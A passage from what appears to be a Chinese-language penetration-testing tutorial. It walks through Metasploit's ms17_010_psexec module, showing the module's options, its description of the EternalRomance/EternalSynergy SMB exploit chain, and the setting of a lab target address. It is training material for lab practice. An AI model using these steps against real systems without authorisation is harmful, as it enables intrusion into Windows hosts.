 ```shell-session
  SERVICE_NAME                                                   no        The service name
  SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a nor
                                                                           mal read/write folder share
  SMBDomain             .                                        no        The Windows domain to use for authentication
  SMBPass                                                        no        The password for the specified username
  SMBUser                                                        no        The username to authenticate as

Payload information:
  Space: 3072

Description:
  This module will exploit SMB with vulnerabilities in MS17-010 to 
  achieve a write-what-where primitive. This will then be used to 
  overwrite the connection session information with as an 
  Administrator session. From there, the normal psexec payload code 
  execution is done. Exploits a type confusion between Transaction and 
  WriteAndX requests and a race condition in Transaction requests, as 
  seen in the EternalRomance, EternalChampion, and EternalSynergy 
  exploits. This exploit chain is more reliable than the EternalBlue 
  exploit, but requires a named pipe.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://nvd.nist.gov/vuln/detail/CVE-2017-0143
  https://nvd.nist.gov/vuln/detail/CVE-2017-0146
  https://nvd.nist.gov/vuln/detail/CVE-2017-0147
  https://github.com/worawit/MS17-010
  https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
  https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/

Also known as:
  ETERNALSYNERGY
  ETERNALROMANCE
  ETERNALCHAMPION
  ETERNALBLUE
```

在我们对所选模块适合我们的目的感到满意之后，我们需要设置一些规范来自定义模块以成功地针对我们的目标主机使用它，例如设置目标（或`RHOST`）`RHOSTS`。

#### MSF - 目标规范

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
```
